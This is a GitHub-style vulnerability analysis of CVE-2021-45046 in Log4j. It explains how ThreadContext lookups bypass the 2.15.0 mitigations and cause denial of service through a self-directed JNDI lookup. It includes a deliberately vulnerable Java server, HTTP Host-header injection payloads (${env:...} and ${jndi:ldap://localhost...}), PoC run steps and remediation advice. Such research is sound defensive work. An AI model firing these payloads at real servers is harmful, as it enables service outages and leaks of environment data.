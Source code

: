 # Log4Shell RCE

### *Vulnerability Analysis Report - Follow Up(s)*

## Introduction

There is a critical 0-day vulnerability reported in Log4j versions ```2.0 <= Log4j <= 2.14.1```. It is tracked as ```CVE-2021-44228```. See my detailed analysis report on that CVE at [Log4Shell RCE - CVE-2021-44228 analysis report](https://github.com/sschakraborty/SecurityPOC/tree/main/log4shell).

Understanding the above CVE is a pre-requisite to understanding these follow-up Denial-of-Service (DoS) vulnerabilities that were reported after it. These vulnerabilities are tracked as ```CVE-2021-45046``` and in Apache's JIRA [LOG4J2-3230](https://issues.apache.org/jira/browse/LOG4J2-3230).


## Affected Versions

The vulnerability is related to a Log4j 2 feature called *Lookups*. *Lookups* are available only in **Log4j 2** (version 2.x) and not in **Log4j** (version 1.x). For more information on *Lookups* visit [Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html).

```CVE-2021-45046``` was patched in Log4j version ```2.16.0``` by removing the JNDI lookup feature entirely. The bug [LOG4J2-3230](https://issues.apache.org/jira/browse/LOG4J2-3230) has been fixed in version ```2.17.0```.

It's recommended for Log4j core dependencies to be upgraded to versions ```2.17.0``` or above.

## ```CVE-2021-45046```

1. [MITRE Report](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046)
2. [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2021-45046)
3. [SSA-661247: Apache Log4j Vulnerabilities - Impact to Siemens Products](https://cert-portal.siemens.com/productcert/pdf/ssa-661247.pdf)
4. [Apache's JIRA issue](https://issues.apache.org/jira/browse/LOG4J2-3221)


# The Vulnerability

## Facts

The previous vulnerability ```CVE-2021-44228``` was fixed in version ```2.15.0``` by making best-efforts in restricting the JNDI lookups to localhost. In version ```2.15.0```, JNDI lookups to any remote service will fail with the message ```WARN Attempt to access ldap server not in allowed list```.

An additional point to note here is that the flag ```-Dlog4j2.formatMsgNoLookups=true``` or environment variable ```LOG4J_FORMAT_MSG_NO_LOOKUPS``` used for disabling lookups in message patterns, works only for messages sent to logger. This flag does not apply to other pattern layout meta-variables present in configuration.

For example, the Thread Context lookup meta-variable (```$${ctx:...}```) in pattern ```%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n``` won't be affected by the above flag. Those values will still be evaluated and dumped into logs.

For complete background of the above discussions, see [Log4Shell RCE - CVE-2021-44228 analysis report](https://github.com/sschakraborty/SecurityPOC/tree/main/log4shell).


## JNDI Injection (DoS)

Consider the following Java code:

```java
import io.vertx.core.AbstractVerticle;
import io.vertx.core.Promise;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class MainVerticle extends AbstractVerticle {
    private static final Logger logger = LogManager.getLogger(MainVerticle.class);

    @Override
    public void start(Promise<Void> startPromise) {
        vertx.createHttpServer().requestHandler(request -> {

            // Set a ThreadContext variable "hostName"
            ThreadContext.put("hostName", request.host());

            // Invoke logger
            logger.info("Received a connection!");

            request.response().putHeader("content-type", "text/plain").end("Hello World!");
        }).listen(8888, http -> {
            if (http.succeeded()) {
                logger.info("HTTP server started on port 8888");
                startPromise.complete();
            } else {
                logger.error("HTTP server started on port 8888");
                startPromise.fail(http.cause());
            }
        });
    }
}
```

This code extracts the hostname from the HTTP request and sets it into the current thread's Log4j ```ThreadContext``` with key ```hostName```. Combined with the following pattern in any Log4j appender, the mitigations made in Log4j ```2.15.0``` are rendered useless.

```properties
appender.rolling.layout.pattern=%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n
```
Even if the message lookups are disabled using the flag mentioned above, an attacker can inject meta-variables in ```Host: ...``` field of HTTP request and Log4j will evaluate them.

For example:

```text
GET /helloWorld HTTP/1.1
Host: ${env:SESSION_MANAGER}
Origin: https://pi.local:8888
```

will result in the following log being dumped:

```text
Hostname: local/unix:@/tmp/.ICE-unix/1804,unix/unix:/tmp/.ICE-unix/1804 Message: Received a connection!
```

irrespective of whether message lookups are disabled or not.

Therefore, JNDI payloads can be injected as well. However, due to the previously mentioned fact that Log4j ```2.15.0``` makes best-effort attempt to stop remote JNDI calls, an attacker (probably!) won't be able to make calls to remote server. All JNDI calls will be restricted to localhost.

But what happens if the JNDI call is made to the vulnerable web server itself?

For example, the above web server listens to port ```8888``` and the following HTTP request
```text
GET /helloWorld HTTP/1.1
Host: ${jndi:ldap://localhost:8888/foo/bar}
Origin: https://pi.local:8888
```
is sent to the server. This will trigger a JNDI lookup to the web server itself and there's nothing restricting the request as it is made to a local address (and not a remote one)! This will lead to arresting the thread that tries to process this HTTP request. Sending multiple such requests to the web server will eventually lead to arresting all threads in the thread-pool and consequently Denial-of-Service.

### The Arrest

Since the JNDI request, received by the web server, is not a complete and compliant HTTP request, the server never returns a response. And the JNDI lookup client that Log4j uses is a synchronous / blocking client. The client keeps waiting indefinitely for a response and never receives one. Therefore, the thread never exits.

### Exploit PoC

Follow the steps to get a PoC setup working. First step is to run a vulnerable web server:

1. Clone this repo ```git clone https://github.com/sschakraborty/SecurityPOC.git```
2. Change current directory into *log4shell_2* - ```cd log4shell_2```
3. Build using Maven - ```mvn clean package -D skipTests```
4. Run the vulnerable web server fat JAR - ```java -Dlog4j2.formatMsgNoLookups=true -jar target/log4shell_2-1.0.0-SNAPSHOT-fat.jar```
5. This web server will be listening on port ```8888``` and will be appending logs into two appenders. One appender is the console appender, which is not vulnerable as Thread Context lookup is not present in default pattern configuration. The other one is the rolling file appender which is vulnerable as ```%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n``` is set as the pattern configuration and hostname is under attacker's control.

The rolling file appender logs into ```target/rolling/rollingtest.log```.

The next step is to simply execute the Python 3 exploit script as ```python3 exploit/exploit.py```. You should see that the server's thread is blocked forever and does not exit (The server will be logging warnings for being blocked. This is a feature in Vert.x framework). The Python 3 client will exit after some time because of timeout but the server thread will continue to be blocked.

**Note:** The blocked server cannot be terminated using ```Ctrl + C``` signal. Try ```sudo kill -9 <PID>```.


# Remediation

Upgrade Log4j to a version ```2.17.0``` or above.

The DoS vulnerability is solved in the Log4j version ```2.16.0``` by removing the JNDI lookup feature entirely. The call to resolve / evaluate the JNDI lookup meta-variables, has been removed. Therefore, Log4j version ```2.16.0``` or above will not resolve anything which resembles or which recursively resolves to resemble ```${jndi:...}``` or ```$${jndi:...}```.